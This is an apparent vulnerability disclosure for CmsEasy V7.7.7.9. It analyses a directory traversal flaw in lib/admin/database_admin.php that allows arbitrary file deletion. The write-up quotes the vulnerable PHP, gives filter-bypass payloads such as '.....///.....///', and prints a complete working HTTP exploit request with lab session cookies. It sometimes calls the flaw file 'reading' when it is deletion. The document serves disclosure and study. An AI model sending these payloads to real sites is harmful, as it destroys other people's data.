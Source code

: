 # CmsEasy-V7.7.7.9 20240105-Directory Traversal



## Introduce

CmsEasy has a directory traversal vulnerability in `lib/admin/database_admin.php` that allows arbitrary file deletion. Attackers can exploit this vulnerability to traverse directories and delete arbitrary files.



## Analyze

In the `lib/admin/database_admin.php` file, due to insufficient filtering in the `backAll_action` function, directory traversal leads to arbitrary file deletion.

![image-20250123005104482](assest/cmseasy/cmseasy-1.png)



```php
 function backAll_action(){
        $dir=ROOT.'/data/backup-website';
        if(front::post('submit') &&is_array(front::post('select'))) {
            foreach(front::post('select') as $d) {
                $d = str_replace('#', '', $d);
                $d = str_replace('../', '', $d);
                $d = str_replace('./', '', $d);
                @unlink($dir.'/'.$d);
            }
            front::flash(lang_admin('success').lang_admin('delete').count(front::post('select')).lang_admin('individual').lang_admin('archives').'！');
        }
        $dirs=front::scan($dir);
        $db_dirs=array();
        foreach($dirs as $dir) {
            if(!preg_match('/\.\./',$dir)) $db_dirs[]=service::lockString($dir);
        }
        //var_dump($db_dirs);
        $this->view->db_dirs=$db_dirs;
    }
```

The `front::post` method is equivalent to `$_POST`.

It can be observed that the dangerous function `unlink` is used.
Additionally, the parameter `select` is controllable (an array).

```php
foreach(front::post('select') as $d) {
                $d = str_replace('#', '', $d);
                $d = str_replace('../', '', $d);
                $d = str_replace('./', '', $d);
                @unlink($dir.'/'.$d);
            }
```

Through analysis and filtering, it can be concluded that developers want to avoid arbitrary file reading vulnerabilities caused by path traversal.

However, an attacker can use filter conditions to construct content to achieve arbitrary file reading.

```

Bypass Method 1:
.....///.....///
=>
../../


Bypass Method 2:  # Utilize Windows parsing characteristics (this method only works on Windows).
..\\..\\
```



## Exploit

```http
POST /index.php?case=database&act=backAll&admin_dir=admin&site=default HTTP/1.1
Host: 192.168.0.104:5678
Content-Length: 38
Cache-Control: max-age=0
Origin: http://192.168.0.104:5678
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://127.0.0.1:5678/index.php?case=admin&act=login&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-fetch-site: same-origin
sec-fetch-mode: navigate
sec-fetch-user: ?1
sec-fetch-dest: document
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
cookie: loginfalse74c6352c5a281ec5947783b8a186e225=6; PHPSESSID=73sf2og6s5l9qp6507aeofvp19; allowdown=985f28e9d3af52c829b07a025282006b; login_username=admin; login_password=yxx2O2HvK1vseDc6d%253DMBgleqHCHKdC%253DocDZ%253DK%253DMuLxOuV2ab18391e6e61e99aff8e10d05e4ad02
Connection: keep-alive

submit=1&select[]=.....///.....///test.txt
```



Create `1.txt` file to test.

![image-20250123010305574](assest/cmseasy/cmseasy-2.png)



Send the exploit (constructing two levels up in the directory because the trigger point is located in `lib/admin/database_admin.php`).  The response "Template does not exist" is displayed normally, but the deletion was actually successful.

![image-20250123010228909](assest/cmseasy/cmseasy-3.png)



The file can be seen to have been deleted.

![image-20250123010334583](assest/cmseasy/cmseasy-4.png)

